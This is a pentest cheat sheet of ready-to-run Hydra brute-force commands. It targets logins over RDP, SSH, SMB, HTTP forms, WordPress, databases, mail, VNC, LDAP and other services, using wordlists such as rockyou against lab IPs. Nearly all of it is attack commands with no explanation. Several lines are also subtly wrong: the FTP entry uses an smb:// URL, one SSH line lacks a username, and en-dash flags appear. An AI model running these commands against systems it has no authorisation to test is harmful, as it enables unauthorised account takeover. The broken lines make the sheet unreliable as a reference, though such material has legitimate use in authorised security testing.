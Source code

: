 !!! info ""

    #### Hydra GUI

    [xhydra](https://www.kali.org/tools/hydra/#hydra-gtk)

    ```bash
    sudo apt install hydra-gtk
    ```

    #### RDP
    
    ```bash
    hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
    ```

    #### SSH

    ```bash
    hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
    hydra $ip -s 22 ssh -l -P big_wordlist.txt
    hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
    hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
    ```

    #### SMB

    ```bash
    hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
    hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
    ```

    #### FTP

    ```bash
    hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
    ```

    #### HTTP Basic Auth

    ```bash
    hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
    Http get 401 login with a dictionary
    hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
    ```

    #### HTTP Post

    ```bash
    hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
    "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
    name or password is incorrect" -V

    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.216.57 http-post-form "/Account/login.aspx:__VIEWSTATE=AmInWQjOL%2BAHMc9qQ0CW0CFnlUXaqoRXEj%2FOvBixV%2Fld9p%2BKj%2B7mB%2FZ7FcrOxWmCkIjSfD9utiaSxAvSBmKz1VkaDvYW9b5sxJWoX3ZOskfQg0u3CsSjndshwiuLcEq7l%2BRc7FwwBs%2BvLvrnXfcLFt%2B0vNv1zwwLa3QoTUjG3V9hk0Sg&__EVENTVALIDATION=zMZzvwm4lfkTglvBFfLhbEjJu8yEheigLkmHJ7E8owtV2FVK0TTZdne0RExmMdPY5RORs4UuLmymoBfQmY8UwKaRwaqnpZkAM%2BPLgxPNj3wtiiTaC4jbJSUoKPCRWBtpMIz4vtdxr9zbhDPn5zB7IJSOpA%2FMzo6LYD9oiiaMKWUj8VNM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
    ```

    #### IMAP

    ```bash
    hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
    ```

    #### MySQL

    ```bash
    hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
    ```

    #### POP

    ```bash
    hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
    ```

    #### Redis

    ```bash
    hydra –P password.txt redis://10.0.2.5 -V
    ```

    #### Rexec

    ```bash
    hydra -l root -P password.txt rexec://10.0.2.5 -V
    ```

    #### Rlogin

    ```bash
    hydra -l root -P password.txt rlogin://10.0.2.5 -V
    ```

    #### RSH

    ```bash
    hydra -L username.txt rsh://10.0.2.5 -V
    ```

    #### RSP

    ```bash
    hydra -l root -P passwords.txt <IP> rtsp
    ```

    #### SNMP

    ```bash
    hydra -P password-file.txt -v $ip snmp
    ```

    #### SMTP

    ```bash
    hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
    hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
    hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
    #Port 587 for SMTP with SSL
    ```

    #### Telnet

    ```bash
    hydra -l root -P passwords.txt [-t 32] <IP> telnet
    ```

    #### VNC

    ```bash
    hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
    <IP> vnc
    ```

    #### Wordpress

    ```bash
    hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	
    ```

    #### LDAP

    ```bash
    hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
    ```
